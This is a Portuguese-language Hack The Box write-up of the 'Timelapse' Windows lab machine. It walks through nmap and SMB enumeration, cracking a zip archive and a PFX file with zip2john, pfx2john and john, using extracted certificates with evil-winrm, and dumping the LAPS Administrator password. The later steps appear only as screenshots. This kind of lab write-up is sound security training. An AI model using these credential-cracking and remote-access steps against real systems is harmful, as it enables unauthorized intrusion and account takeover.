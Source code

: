 ```yaml
---
title: Hack The Box - TimeLapse
author: R3d-4rr0w
date: 2022-04-05 09:00:00 -0300
categories: [Hack The Box, Writeups]
tags: [HTB, Writeups, Windows, Easy, LAPS]
alt: "HTB Timelapse Writeup"
---
```



# Hack the Box - Timelapse

![Untitled](../img/HTB-TimeLapse/HTB-TimeLapse.png)

Reconhecimento:

NMAP SCAN

```bash
┌──(red_arrow㉿kali)-[~]
└─$ nmap -sV -Pn -p- --min-rate 1000 10.10.11.152 -v
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-01 22:20 EDT                                                             
PORT      STATE SERVICE       VERSION                                                                              
53/tcp    open  domain        Simple DNS Plus                                                                      
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-04-02 10:27:50Z)                       
135/tcp   open  msrpc         Microsoft Windows RPC                                                                
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49696/tcp open  msrpc         Microsoft Windows RPC
53816/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Dentre várias portas abertas, podemos ver que as portas 139 e 445 SMB estão abertas.

Vamos enumerar os compartilhamentos desse serviço.

Listando as pastas do SMB.

```bash
┌──(red_arrow㉿kali)-[~]
└─$ smbclient -L //10.10.11.152/
Enter WORKGROUP\red_arrow's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Dentro da pasta Shares temos:

```bash
┌──(red_arrow㉿kali)-[~]
└─$ smbclient //10.10.11.152/Shares
Enter WORKGROUP\red_arrow's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct 25 11:39:15 2021
  ..                                  D        0  Mon Oct 25 11:39:15 2021
  Dev                                 D        0  Mon Oct 25 15:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 11:48:42 2021

                6367231 blocks of size 4096. 1152581 blocks available
smb: \>
```

Dentro da pasta Dev temos um arquivo de backup

```bash
smb: \> cd Dev
smb: \Dev\> ls
  .                                   D        0  Mon Oct 25 15:40:06 2021
  ..                                  D        0  Mon Oct 25 15:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 11:46:42 2021

                6367231 blocks of size 4096. 1152580 blocks available
smb: \Dev\>
```

Dentro da pasta HelpDesk temos

```bash
smb: \> cd HelpDesk
smb: \HelpDesk\> ls
  .                                   D        0  Mon Oct 25 11:48:42 2021
  ..                                  D        0  Mon Oct 25 11:48:42 2021
  LAPS.x64.msi                        A  1118208  Mon Oct 25 10:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 10:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 10:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 10:57:44 2021

                6367231 blocks of size 4096. 1147148 blocks available
smb: \HelpDesk\>
```

Após fazer o download dos arquivos encontrados, vemos que o arquivo winrm_backup.zip está protegido por senha. 

Vamos usar o zip2john para extrair o hash da senha do arquivo compactado para que seja possível fazer o bruteforce

```bash
┌──(red_arrow㉿kali)-[~/Documents/HackTheBox/Timelapse]
└─$ zip2john winrm_backup.zip > password.txt
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
```

Faremos um bruteforce para tentar quebrar a senha:

![Untitled](../img/HTB-TimeLapse/HTB-TimeLapse%201.png)

Após extrair o conteudo, temos acesso a um arquivo pfx com senha.

Vamos usar o pfx2john para extrair o hash da senha novamente

```bash
┌──(red_arrow㉿kali)-[~/Documents/HackTheBox/Timelapse]
└─$ pfx2john legacyy_dev_auth.pfx > legacy.txt
```

Vamos tentar quebrar a senha denovo usando o john.

![Untitled](../img/HTB-TimeLapse/HTB-TimeLapse%202.png)

Agora que temos a senha, vamos extrair o certificado e a chave  do client do arquivo pfx.

```bash
┌──(red_arrow㉿kali)-[~/Documents/HackTheBox/Timelapse]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy.key
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:

┌──(red_arrow㉿kali)-[~/Documents/HackTheBox/Timelapse]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy.crt
Enter Import Password:
```

Como visto no scan do nmap, temos a porta 5986 - WinRM aberta.

Agora que temos os certificados do client, tentaremos acessar um powershell remoto com o evil-winrm

![Untitled](../img/HTB-TimeLapse/HTB-TimeLapse%203.png)

Conseguimos acesso a máquina.

Buscando nos diretórios que temos acesso, achamos a flag de usuario (user.txt) no Desktop do usuário que estamos logados.

![Untitled](../img/HTB-TimeLapse/HTB-TimeLapse%204.png)

Continuando a exploração, vamos olhar no histórico do powershell para ver se encontramos algo de interessante.

Conseguimos achar as credenciais de outro usuário.

![Untitled](../img/HTB-TimeLapse/HTB-TimeLapse%205.png)

Agora podemos acessar ao powershell remoto usando o usuário e a senha que encontramos.

![Untitled](../img/HTB-TimeLapse/HTB-TimeLapse%206.png)

Ao enumerar os usuários do AD, encontramos o user Administrator 

![Untitled](../img/HTB-TimeLapse/HTB-TimeLapse%207.png)

Além do arquivo de backup que encontramos no SMB, também encontramos vários documentos a respeito da implantação do serviço LPAS.

Sabendo que as senhas do ‘Administrator’ são salvas localmente no Active Directory, vamos tentar fazer o dump das credenciais.

![Untitled](../img/HTB-TimeLapse/HTB-TimeLapse%208.png)

Agora que temos a senha do Administrator, vamos fazer login usando novamente o Evil-WinRM.

![Untitled](../img/HTB-TimeLapse/HTB-TimeLapse%209.png)

Após um tempo buscando a flag do root, que não estava no Desktop do user, como de costume, tentei ver nos outros usuários.

E estava no Desktop de outro usuário.

![Untitled](../img/HTB-TimeLapse/HTB-TimeLapse%2010.png)

E assim conseguimos comprometer a máquina e conseguir as duas flags.

![Untitled](../img/HTB-TimeLapse/HTB-TimeLapse%2011.png)